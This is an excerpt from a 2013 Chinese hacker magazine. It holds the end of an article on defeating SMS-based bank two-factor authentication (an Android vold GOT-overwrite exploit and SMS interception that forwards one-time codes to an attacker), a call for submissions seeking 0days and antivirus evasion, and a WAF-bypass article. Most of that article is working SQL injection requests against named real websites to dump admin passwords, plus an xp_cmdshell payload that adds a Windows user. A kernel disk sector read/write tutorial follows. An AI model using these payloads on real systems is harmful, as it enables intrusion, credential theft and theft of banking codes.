上述代码存在的漏洞是 part_num 未校验其取值是否为负数。攻击者可构造两个非法参数 PARTN 和 MINOR，即将 PARTN 赋予函数 atoi 地址，MINOR 赋予 system 函数地址，实现 `addr(atoi)=addr(system)`。因为 vold 的内存布局为：整个可执行代码被加载在堆下方，故可提供一个负索引 PARTN，使 `mPartMinors[part_num -1]` 指向 GOT 入口。为了实现恶意代码执行，再次执行上述存在漏洞的代码段，并对 PARTN 赋值一个二进制路径作为参数。当 `atoi(tmp)` 调用时，它将引发 `system(path/to/binary)` 调用，此时恶意代码被执行。具体流程说明如图 5 和图 6 所示。
图 5 利用 CVE-2011-1823 漏洞破坏 atoi() 函数地址
图 6 重新调用 atoi 函数，使其执行 `system(path/to/binary)`

#### 短信拦截

为了拦截 SMS，我们可以参考《Injecting SMS Messages into Smart Phones for Security Analysis》文章。即类似扮演中间人攻击角色，在 modem 和 Android 系统电话栈之间安插一个中间人。首先，恶意软件对 GSM-modem 相关设备 `/dev/smd0` 重命名为 `/dev/smd0r`，再创建一个伪设备 `/dev/smd0`，然后重启无线接口层后台程序 rild（用于与 GSM-modem 通信的 Android 组件）。此后，rild 打开 `/dev/smd0` 设备与伪终端通信。当恶意软件检测到短信 SMS 到来时，首先解码消息并扫描消息是否匹配 mTAN，若检测到关键词，则直接将此消息转发到攻击端。

#### 小结

本文提出了一种基于 WiFi 网络的跨平台感染攻击双因素动态口令认证方案。基于身份信息和动态口令码双因素机制的方案，广泛应用于各家银行电子银行系统中。虽然上述攻击方案建立在几个假设条件下，但这些条件都很容易满足，且使用的攻击手法如 DLL 注入、键盘过滤、本地权限提升都是常见技术。因此，基于 SMS 的动态口令认证方案存在被攻击的可能。当前建议读者在合理回避钓鱼网站的基础上，选择硬件令牌 Token 机制的认证方案。攻击与防御技术总是在角逐中不断螺旋上升，在使用远程银行支付时具备一定安全常识非常必要。

（完）

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day。稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目。对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理；对国际国内发布的 PoC 进行分析研究，编写并提供优化 exploit 的思路和过程；同时可针对最新爆发漏洞进行底层触发、shellcode 分析以及对各种平台安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行注入、提权、渗透；国内外使用率高的脚本系统 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗；并且欢迎在源代码基础上免杀和专杀的技术论证。最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章。

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀毒、防渗透体系的建立；ARP 系统的整体防护；较有效且不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当位置，并明确标注“图 1”“图 2”；
- 2）在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用笔名等，方便我们发放稿费。
- 3）投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：du_xing_zhe@yahoo.com.cn，QQ：675122680。投稿后，稿件录用情况将于 1-3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4）稿费发放周期：稿费当月发放，稿费从优。欢迎更多专业技术人员加入到这个行列。
- 5）根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：

| 奖项 | 稿费标准 |
|---|---|
| 一等奖件 | 900 元/篇 |
| 二等奖件 | 600 元/篇 |
| 三等奖件 | 300 元/篇 |

- 6）稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 7）投稿信箱及编辑联系：投稿信箱 du_xing_zhe@yahoo.com.cn；编辑 QQ：675122680。

# 《黑客防线》2期文章目录

总第146期 2013年

### 漏洞攻防

- WAF 绕过经验谈（晴天小铸）…… 2

### 编程解析

- ATAPI 实现扇区读写（鹿剑）…… 8
- ATAPI IRP HOOK 实现扇区重定位（鹿剑）…… 15
- 发送 SCSI 指令实现读写扇区（DebugMe）…… 22
- 内核中不借助用户层程序注入 ShellCode（和尚洗头用飘柔）…… 27
- Linux 后门技术研究：从最简单 login 后门说起（blackcool）…… 30
- Windows 中的页目录自映射方案（王晓松）…… 33

### 网络安全顾问

- DNS 隧道技术绕过上网认证限制（Conqu3r）…… 36
- Linux 下基于 ext3 文件系统的数据恢复技术（倪程 王中彬）…… 39

征稿启示…… 44

### WAF 绕过经验谈

文/图 晴天小铸

随着安全的发展，各种安全防护软件层出不穷，本文主要介绍在实际操作中，针对如何绕过 WAF 防御注入提供一点思路。

#### 编码技术

对一些攻击特征串进行不同的编码，如 URL 编码、ASCII、Unicode 等，而使用一些非标准的编码，很容易就会绕过 WAF 防御注入。

### 1）绕过智创网站专业级防火墙

构造如下请求：

```text
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20%28SELECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%28admin%29%29



```

返回如图1所示的页面，说明该注入已经被成功拦截，因此构造如下请求：
图1

```text
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20%28SEL%E%CT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%28admin%29%29



```

返回如图2所示的界面，表示已经成功绕过。这里主要利用 SEL%E%CT 来代替 select。

简单来说，就是这个网络层 WAF 对 SEL%E%CT 进行 URL 解码后，变成 SEL%E%CT，匹配 select 失败；而进入 asp.dll 后，对 SEL%E%CT 进行 URL 解码却变成了 select。
图2

IIS 下的 asp.dll 文件在对 ASP 文件后的参数串进行 URL 解码时，会直接过滤掉 09-0d（09 是 tab 键，0d 是回车）、20（空格）、%（下两个字符有一个不是十六进制）字符。因此在网络层的防护中，只要内置规则大于两个字符，就会被绕过。如内置规则为“..”，可以使用“.%.”来绕过。

### 2）encoding 编码绕过

除了使用上面的方法绕过，利用编码技术绕过也是可行的。提交如下请求，其中的 %u0065 是 e 的 Unicode 编码，结果如图3所示，成功绕过。

```text
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20%28S%u0065LECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%28admin%29%29


```
图3

#### 数据的特殊用法绕过

- 1）通过空格绕过

如两个空格代替一个空格，用 Tab(%09)、回车(%0D)代替空格等，或者删除所有空格。如 or' swords' ='swords'，由于 mssql 的松散性，我们可以把 or 'swords' 之间的空格去掉，变成 or'swords' ='swords'（注意，没空格了），并不影响运行。

- 2）NULL 字节截断突破

提交如下请求，提示遇到了安全狗，如图4所示。

```text
http://www.sanyougroup.com/ewebeditor/ewebeditor.asp?id=article_content&style=standard%20and%201=1



```
图4

我们再尝试提交下面的请求，结果如图5所示。

```text
http://www.sanyougroup.com/ewebeditor/ewebeditor.asp?asdasdadsada=%00.&id=article_content&style=standard and 1=1






```
图5

asdasdadsada=%00 中的 %00 相当于 NULL，也就是 null 字符截断，导致 WAF 在传递 URL 参数时被截断了，从而成功绕过，注入成功！

#### 数据库绕过方法

### 1）Mysql

利用内联注释，我们可以将 select 写成 /*!select*/ 进行查询，如图6所示。
图6

同样，也可以利用换行来实现，比如下面的查询语句，换行后进行查询，结果如图7所示，实际的查询语句就变成了 select%0a%23abc%0a1,%0a2%23abc。

```text
select
-> #abc
-> 1,
-> 2
-> #abc
-> ;






```
图7

还可以通过在表后添加特殊字符来绕过。比如正常情况下的查询语句 select user,password from user_____，就可以通过 select user,password from user xxx union select(1),(2); 来绕过。此外，Mysql 中的空格也可以用 + 或 /**/ 号来代替，如图8所示。
图8

切记，在 Mysql 中，select 不能使用 sele/**/ct 这样的写法，不少文章有说可以这样写，其实是错误的。因为 MSSQL 的松散性问题，则可以这样写。

### 2）MSSQL

- 一是用 HEX 绕过，一般的 IDS 都无法检测出来。
- 0x730079007300610064006D0069006E00 = hex(sysadmin)
- 0x640062005F006F0077006E0065007200 = hex(db_owner)
- 二是用变量赋值法绕过。例如先声明一个变量 a，把我们的指令赋值给 a，然后调用变量 a，最终执行输入的命令。变量 a 可以是任何命令，比如：
- 三是运用注释语句绕过。用 /**/ 代替空格，如 UNION /**/ Select /**/user,pwd,from tbluser；用 /**/ 分割敏感词，如 U/**/NION/**/SE/**/LECT/**/user,pwd from tbluser。

```text
declare @a sysname
select @a=
exec master.dbo.xp_cmdshell @a
```

```text
http://www.xxx.com/xxx.asp?id=1;declare%20@a%20sysname%20select
@a=0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400 exec master.dbo.xp_cmdshell @a;--
```

其中的 0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400 就是 net user angel pass /add 的意思。

### 3）Access

用 () 和 [] 来绕过，其中 [] 用于表和列，() 用于数值，也可以做分隔。

```text
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20SE%LECT%201,user name,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from[admin]
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20SE%LECT%201,[user name],3,4,[passwd],6,7,8,9,10,11,12,13,14,15,16,17,18%20from[admin]
```

其中的 admin、username 和 passwd 都用 [] 括了起来。另外，Access 也有空格松散性，比如 575and 1=2 与 575and1=2 效果是一样的。

#### 变量覆盖绕过 WAF 防御

上文提到了提交  
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20%28SELECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%28admin%29%29  
会被拦截，而用  
http://www.51qljr.com/xinxi/shownews.asp?id=%28-575%29UNION%20%28SELECT%201,username,3,4,passwd,6,7,8,9,10,11,12,13,14,15,16,17&id=18%20from%28admin%29%29  
提交，则会顺利绕过。

对比这两个请求，会发现第二个请求比第一个多了“&id=”，少了“,”。这就是利用参数覆盖的形式绕过了 WAF。

PHP 也可以利用变量覆盖来绕过，只是不同于 ASP。比如 http://xxx.com/test.php?id=0 写成 http://xxx.com/test.php?id=0&id=7 and 1=2，其中&id=0 变为&id=7 and 1=2，并没有像 ASP 那样有“,”的出现。

#### 其他方法绕过

- 1）**WAF 规则问题**  
  传统的注入语句 and 1=2 union select xxxxxxxxxxxxxxxxxxxxxxxx 可以改成 and 1=2 union all select xxxxxxxxxxxxxxxxxxxxxxxxxx，多了一个 all，就可以打乱某些防火墙的匹配规则，从而绕过。

- 2）**Mysql 冷门函数**  
  利用 Mysql 的冷门函数也可能绕过 WAF 匹配规则。比如：  
  不过这两条语句需要报错模式，Mysql 版本要大于 5.1。

- 3）**数据包绕过**  
  利用畸形数据包打乱匹配规则来绕过。

```text
and 1=(updatexml(1,concat(0x5c,(select user()),0x5c),1));
and extractvalue(1, concat(0x5c, (select user()),0x5c));
```

```text
GET /test/xxx.asp HTTP/1.1
Accept: */*
Accept-Language: zh-cn
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.04506.648; .NET CLR 3.5.21022; .NET4.0C)
Accept-Encoding: gzip, deflate
Proxy-Connection: Keep-Alive
Host: www.51qljr.com
Pragma: no-cache
Content-Length: 21
Content-Type: application/x-www-form-urlencoded

id=572' and 1=1—
```

我们可以看到这是一个畸形的 HTTP GET 请求包，这个包的秘密在于 Content-Type 和 Content-Length 头，包的结构类似于一个 POST 包，而请求的方法是 GET。最后 asp 和 asp.net 的 Request 对象成功地解析了这个畸形包，读取出了数据。所以，如果 WAF 没有处理好 HTTP 包的内容，沿用常规思路处理 GET 和 POST 的逻辑的话，那么这个畸形包将会毁掉 WAF 的基础防御。

（完）

### ATAPI 实现扇区读写

文/图 鹿剑

ATAPI 层的磁盘读写被越来越多的 ARK 和病毒使用，目前的很多资料大多来自机器狗逆向的那份代码，所以可以看到讲原理的资料不多。响应黑方的号召，故写此文。

ATAPI 层使用 SCSI_REQUEST_BLOCK 实现磁盘的控制和操作。SCSI_REQUEST_BLOCK 是 Windows 对 SCSI 通信的一个上层封装，涉及了磁盘读写、控制、格式化、CD 播放控制等多种内容。本文主要描述使用 ATAPI 实现磁盘扇区读写的方法。SCSI_REQUEST_BLOCK 的完整结构如图1所示，详细定义可见 WinDDK\7600.16385.1\inc\ddk\scsi.h，其中各个字段的具体含义可参考 WDK 帮助文档，这里就不进行一一摘抄的工作了。

```c
typedef struct _SCSI_REQUEST_BLOCK {
    USHORT Length;
    UCHAR Function;
    UCHAR SrbStatus;
    UCHAR ScsiStatus;
    UCHAR PathId;
    UCHAR TargetId;
    UCHAR Lun;
    UCHAR QueueTag;
    UCHAR QueueAction;
    UCHAR CdbLength;
    UCHAR SenseInfoBufferLength;
    ULONG SrbFlags;
    ULONG DataTransferLength;
    ULONG TimeOutValue;
    PVOID DataBuffer;
    PVOID SenseInfoBuffer;
    struct _SCSI_REQUEST_BLOCK *NextSrb;
    PVOID OriginalRequest;
    PVOID SrbExtension;
    union {
        ULONG InternalStatus;
        ULONG QueueSortKey;
    };
    UCHAR Cdb[16];
} SCSI_REQUEST_BLOCK, *PSCSI_REQUEST_BLOCK;
```

图1

对我们比较有用的字段有如下几个：DataTransferLength 字段代表输入输出 Buffer 缓冲区是多大的。这个是 DataBuffer 的大小吗？答案可能是也可能不是。ATAPI 层的 DataBuffer 通常被设置成 0，而真正的输入输出 Buffer 则使用了 IRP 中的 MdAddress 描述。SrbFlags 是指明一些选项，例如是输入（读取磁盘）还是输出等。Windows 的 classpnp 读取磁盘经常使用下面这个组合：

```text
SRB_FLAGS_CLASS_DRIVER_RESERVED|SRB_FLAGS_PORT_DRIVER_ALLOCSENSE|SRB_FLAGS_ADAPTER_CACHE_ENABLE|SRB_FLAGS_NO_QUEUE_FREEZE|SRB_FLAGS_DATA_IN
```

各种标志位的含义，WDK 帮助文档有详尽描述，就不多说了。

秉承微软复杂结构体的特征，这个结构体中最重要也是最复杂的字段就是 CDB 这个可变字段了。CdbLength 字段描述了这个 CDB 的有效长度。微软文档对这个字段的描述信息极少，这个字段是和 SCSI 协议相关的东西。Windows 目前使用的一些定义可以在 WinDDK\7600.16385.1\inc\ddk\scsi.h 头文件中找到。学习这些字段怎么填写的一个行之有效的方法是一边学习 WDK 中 classpnp 这个磁盘类驱动的源代码，一边通过对 ATAPI 分发函数下断点调试来学习。CDB 的种类很多，但和磁盘读写有关的却不多，并且我自己调试发现，从 Windows XP 到 Windows 8 使用的都是 CDB 长度为 10 的这个结构体。结构体如下：

```c
struct _CDB10 {
    UCHAR OperationCode;
    UCHAR RelativeAddress : 1;
    UCHAR Reserved1 : 2;
    UCHAR ForceUnitAccess : 1;
    UCHAR DisablePageOut : 1;
    UCHAR LogicalUnitNumber : 3;
    UCHAR LogicalBlockByte0;
    UCHAR LogicalBlockByte1;
    UCHAR LogicalBlockByte2;
    UCHAR LogicalBlockByte3;
    UCHAR Reserved2;
    UCHAR TransferBlocksMsb;
    UCHAR TransferBlocksLsb;
    UCHAR Control;
} CDB10;
```

其中和磁盘读写比较相关的就是上面这几个红色字段。第一个表示控制码，表明是读取还是写入；LogicalBlockByte3 到 LogicalBlockByte0 分别是长度大小，是 ULONG 的 LBA 块地址（扇区号）的低字节到高字节（和 Windows 内存存放顺序相反），以扇区（512 字节）为单位。TransferBlocksMsb 是要操作扇区数目的高字节，TransferBlocksLsb 是要操作扇区数目的低字节，所以整个填写 SRB 的工作很简单，如下即可。

```c
VOID AtapiFillSrb(
    PSCSI_REQUEST_BLOCK srb,
    UCHAR majorFunction,
    PLARGE_INTEGER logicalBlockAddr,
    ULONG numTransferBlocks,
    PVOID Buf,
    PSENSE_DATA sensedata
```

```c
{
    RtlZeroMemory(srb, sizeof(SCSI_REQUEST_BLOCK));
    PCDB pCdb = (PCDB)srb->Cdb;

    srb->Length = sizeof(SCSI_REQUEST_BLOCK);
    srb->Function = SRB_FUNCTION_EXECUTE_SCSI;

    srb->DataBuffer = Buf;

    srb->DataTransferLength = numTransferBlocks * 512;
    srb->QueueAction = SRB_FLAGS_DISABLE_AUTOSENSE;
    srb->SenseInfoBuffer = sensedata;
    srb->SenseInfoBufferLength = sizeof(SENSE_DATA);
    srb->TimeOutValue = 0x1E;
    srb->QueueSortKey = logicalBlockAddr->LowPart;
    if (logicalBlockAddr->QuadPart > 0xFFFFFFFF)
    {
        srb->QueueSortKey = 0xFFFFFFFF;
    }
    pCdb = (PCDB)srb->Cdb;
    if (majorFunction == IRP_MJ_READ)
    {
        srb->SrbFlags = SRB_FLAGS_DATA_IN;
    }
    else
    {
        srb->SrbFlags = SRB_FLAGS_DATA_OUT;
    }

    srb->SrbFlags |= SRB_FLAGS_DISABLE_AUTOSENSE |
        SRB_FLAGS_ADAPTER_CACHE_ENABLE | SRB_FLAGS_NO_QUEUE_FREEZE;

    pCdb->CDB10.LogicalBlockByte0 = ((PFOUR_BYTE)&logicalBlockAddr->LowPart)->Byte3;
    pCdb->CDB10.LogicalBlockByte1 = ((PFOUR_BYTE)&logicalBlockAddr->LowPart)->Byte2;
    pCdb->CDB10.LogicalBlockByte2 = ((PFOUR_BYTE)&logicalBlockAddr->LowPart)->Byte1;
    pCdb->CDB10.LogicalBlockByte3 = ((PFOUR_BYTE)&logicalBlockAddr->LowPart)->Byte0;
    pCdb->CDB10.TransferBlocksMsb = ((PFOUR_BYTE)&numTransferBlocks)->Byte1;
    pCdb->CDB10.TransferBlocksLsb = ((PFOUR_BYTE)&numTransferBlocks)->Byte0;
    pCdb->CDB10.OperationCode = (majorFunction == IRP_MJ_READ) ? SCSIOP_READ :
        SCSIOP_WRITE;

    srb->CdbLength = 10;
}
```

根据 WDK 帮助文档的描述，SRB 中的 DataBuffer 有些设备也是可能用的，所以也填写了。除了 LBA 地址和长度需要变化之外，其他的每次都是一样的。前面说过了，这个读写请求的 IRP 是直接读写类型的，所以 IRP 中要填写 MdlAddress。

```c
irp = IoAllocateIrp(lpDeviceObject->StackSize + 4, 0);
mdl = IoAllocateMdl(Buffer, Size, 0, 0, irp);
irp->MdlAddress = mdl;
```

实际读取或者写入的字节数在 Irp->IoStatus.Information 做指示。确定了读写函数之后，我们还面临一些问题，主要有下面几个：怎么得到 ATAPI 设备对象、怎么做多物理磁盘的支持、怎么实现分区的读取（枚举分区）。

枚举分区的方法比较靠谱的还是解析 MBR，这里使用标准的方法来获取。尝试从 `\\??\\PhysicalDrive0` 到 `\\??\\PhysicalDrive9` 打开物理磁盘设备对象，就可以枚举到所有的物理磁盘了。注意，生成物理磁盘设备的驱动并不是 ATAPI 驱动，而是 ATAPI 的上层驱动，所以获取相应 ATAPI 的设备对象的代码如下即可。

```c
NTSTATUS
IoGetHarddiskInformation(
    ULONG DeviceNumber,
    PHARDDISK_INFORMATION *Result)
{
    NTSTATUS        Status;
    PDEVICE_OBJECT  lpDiskDeviceObject;
    PDEVICE_OBJECT  lpAtapiDeviceObject;
    PDEVICE_OBJECT  lpDeviceSeek;
    PFILE_OBJECT    lpFileObject = NULL;
    PDRIVER_OBJECT  lpDriverObject = NULL;
    HANDLE          hFile = NULL;
    BOOLEAN         bFind = FALSE;
    wchar_t         Name1[20] = {L"\\??\\PhysicalDrive1"};
    Name1[17] = (wchar_t)(DeviceNumber + L'0');
    do
    {
        Status = GetObjectByName(&hFile, &lpFileObject, Name1);
        if (!NT_SUCCESS(Status))
        {
            break;
        }
        lpDiskDeviceObject = lpFileObject->DeviceObject;

        Status = OpenDriverObject(L"\\Driver\\ATAPI", &lpDriverObject);
        // 获取ATAPI驱动对象
        if (!NT_SUCCESS(Status))
        {
            break;
        }
        lpAtapiDeviceObject = lpDriverObject->DeviceObject;
        Status = STATUS_OBJECT_NAME_NOT_FOUND;
        while (lpAtapiDeviceObject)
        {
            bFind = FALSE;
            lpDeviceSeek = lpAtapiDeviceObject->AttachedDevice;
            while (lpDeviceSeek)
            {
                // 如果上层设备栈中有物理磁盘驱动的设备对象的话，就说明这个就是对应的ATAPI设备驱动对象了，记录下来，后面读写的时候要使用
                if (lpDeviceSeek == lpDiskDeviceObject)
                {
                    // 找到了
                    PHARDDISK_INFORMATION lpNewNode = (PHARDDISK_INFORMATION)
                        malloc(sizeof(HARDDISK_INFORMATION));
                    lpNewNode->Next = g_HarddiskHeader;
                    lpNewNode->AtapiDeviceObject = lpAtapiDeviceObject;
